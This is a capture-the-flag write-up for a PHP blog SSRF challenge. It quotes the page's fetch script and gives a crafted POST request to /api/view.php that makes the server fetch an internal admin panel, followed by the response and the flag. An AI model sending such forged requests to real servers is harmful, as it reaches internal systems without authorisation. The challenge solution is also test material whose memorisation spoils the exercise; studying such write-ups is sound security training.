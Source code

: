 # Tags
- SSRF
- PHP

# Intro

Your task is to access the admin panel of E Corp. servers. The admin panel is located at http://admin-panel.local but it's not accessible from the outside.
E Corp. also has a public blog running at https://ecorpblog.uctf.ir
Your task is to access the admin panel.

# Vulnerability

Our goal is to reach  http://admin-panel.local. 
When opening a post we have the following javascript script in the source code:


        const API_PATH = '/api/view.php';

        async function fetchPost(id) {
            const fetchResult = await fetch(API_PATH, {
                method: 'POST',
                cache: 'no-cache',
                headers: {
                    'Content-type': 'application/json'
                },
                body: JSON.stringify({ post: `file:///posts/${id}` })
            });

            const resp = await fetchResult.json();
            if (resp.status == 'success') {
                return resp.post;
            } else {
                throw new Error(resp.msg);
            }
        }

        window.addEventListener('load', async () => {
            const titleEl = document.getElementById('post-title');
            const textEl = document.getElementById('post-text');

            const postId = /[^/]*$/.exec(window.location.pathname)[0];
            if (postId.length == 0) {
                titleEl.innerText = 'Missing post ID';
                return;
            }

            let post;
            try {
                post = await fetchPost(postId);
            } catch (e) {
                titleEl.innerText = e.message;
                return;
            }
            document.title = postId;
            titleEl.innerHTML = `${postId} <span class="blink"> |</span>`;

            textEl.innerText = post;
        });
    
It seems like it gets the user input and send a POST request to /api/view.php with the json body: `{ post: "file:///posts/${id}" }`
By requesting the post it seem like it is fetching the file content of that file.
Lets try to make a payload where the server will fetch the  http://admin-panel.local page, by replicating the POST request made by the server.
The payload:

```
POST /api/view.php HTTP/2
Host: ecorpblog.uctf.ir
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://ecorpblog.uctf.ir/view/Azita
Content-Type: application/json
Origin: https://ecorpblog.uctf.ir
Content-Length: 35
Dnt: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

{"post":"http://admin-panel.local"}
```

```
HTTP/2 200 OK
Date: Thu, 07 Sep 2023 10:07:46 GMT
Content-Type: application/json
Content-Length: 50
Vary: Accept-Encoding
X-Powered-By: PHP/7.2.34
X-Xss-Protection: 1; mode=block
Server: ArvanCloud
X-Sid: 4101
Server-Timing: total;dur=146
X-Request-Id: 5acd015119dcc719c005076767ac5bd1
Accept-Ranges: bytes

{"status":"success","post":"uctf{4z174_1n_urm14}"}
```

We get the flag: `uctf{4z174_1n_urm14}`